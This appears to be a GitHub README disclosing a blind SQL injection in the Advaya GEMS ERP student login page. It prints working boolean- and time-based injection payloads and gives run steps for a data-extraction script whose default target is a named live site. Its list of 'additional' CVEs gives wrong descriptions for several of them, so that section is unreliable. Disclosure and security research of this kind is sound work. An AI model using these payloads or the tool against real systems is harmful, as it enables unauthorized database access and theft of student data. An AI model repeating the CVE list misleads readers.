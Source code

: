 
# SQL Injection Vulnerability in Advaya GEMS ERP Portal

⚠️ For **educational and authorized security research** only. Unauthorized testing is strictly prohibited.

## 📌 Overview

This repository contains a **Proof of Concept (PoC)** for a **high-severity SQL Injection vulnerability** (Boolean- and Time-Based Blind) in the `userId` parameter of the Advaya GEMS ERP Portal, developed by Advaya Softech.

- **Vulnerability Type**: SQL Injection (Boolean-Based Blind, Time-Based Blind)
- **Severity**: High
- **Affected Endpoint**: `/studentLogin/studentLogin.action`
- **Vulnerable Parameter**: `userId`
- **Target Example**: `https://<target_domain>/studentLogin/studentLogin.action`
- **Discovered By**: Kuppam Johari
- **Reported To Vendor**: October 1, 2024

---

## 🛡️ Ethical Notice

This PoC is provided for educational and authorized penetration testing only. Testing without **explicit permission** is illegal and unethical. Do not use this tool on unauthorized systems.

---

## Vulnerability Details

The `userId` parameter is vulnerable to SQL injection, allowing database query manipulation.

### Techniques Used
- **Boolean-Based Blind**: Evaluate conditions such as `4601=4601`
- **Time-Based Blind**: Use SQL `SLEEP()` to infer query success via delay

### Example Payloads

**Boolean-Based**:
```
userId=testCSC2024' AND 4601=4601-- KCOJ&password=testCSC2024
```

**Time-Based (in script)**:
```
' AND (SELECT 1 FROM (SELECT(SLEEP(0.6-(IF(ORD(MID((<query>)),<pos>,1))=<char_code>,0,0.6)))))a) AND '1'='1
```

---

## 💥 Impact

- **Data Exposure**: Read sensitive data from databases
- **Data Manipulation**: Insert, update, or delete records

---

## 🛠️ Proof of Concept

- [`GEMS_POC.py`](./GEMS_POC.py): Automates time-based SQL injection to extract DB data
- [`ADVAYA-GEMS-Vulnerability-Report.pdf`](./ADVAYA-GEMS-Vulnerability-Report.pdf): Full vulnerability disclosure, PoC, and mitigation guidance

### Script Features

- ✅ Multi-threaded Enumeration (6 threads)
- ✅ Character Confirmation (double-checks each character)
- ✅ Interactive Menu
- ✅ Customizable delays, charsets, thresholds

---

## 🚀 Usage

### Requirements

- Python 3.x
- Dependencies:
```bash
pip install requests
```

### Run the PoC

```bash
git clone https://github.com/kuppamjohari/advaya-gems-sql-injection-poc.git
cd advaya-gems-sql-injection-poc
python GEMS_POC.py
```

### Menu Options

- Change target domain (default: `https://pesgems.in/`)
- Extract current DB name
- List all DBs
- Enumerate tables in a DB
- Exit

---

## ⚠️ Additional Vulnerabilities Referenced

- CVE-2015-9251 – Directory traversal
- CVE-2020-11022 – XSS
- CVE-2020-7656 – DoS (websocket)
- CVE-2020-11023 – API access bypass
- CVE-2019-11358 – DoS (APC)
- CVE-2012-6708 – Code injection (JSON)

---

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- Watch the PoC video: [SQL Injection Vulnerability in Advaya GEMS ERP Portal](https://www.youtube.com/watch?v=bs6WT-zCAmo)
  [![Video Thumbnail](https://img.youtube.com/vi/bs6WT-zCAmo/0.jpg)](https://www.youtube.com/watch?v=bs6WT-zCAmo)
---

## CVE Status

- Not yet assigned
- Submitted to:
  - Advaya Softech (Disclosure Contact Pending)
  - CNA for CVE assignment (Pending)

---

## 📝 Disclaimer

This project is for **authorized security testing and research** only. The author and contributors are not responsible for misuse or unauthorized access. Always obtain written permission before testing.
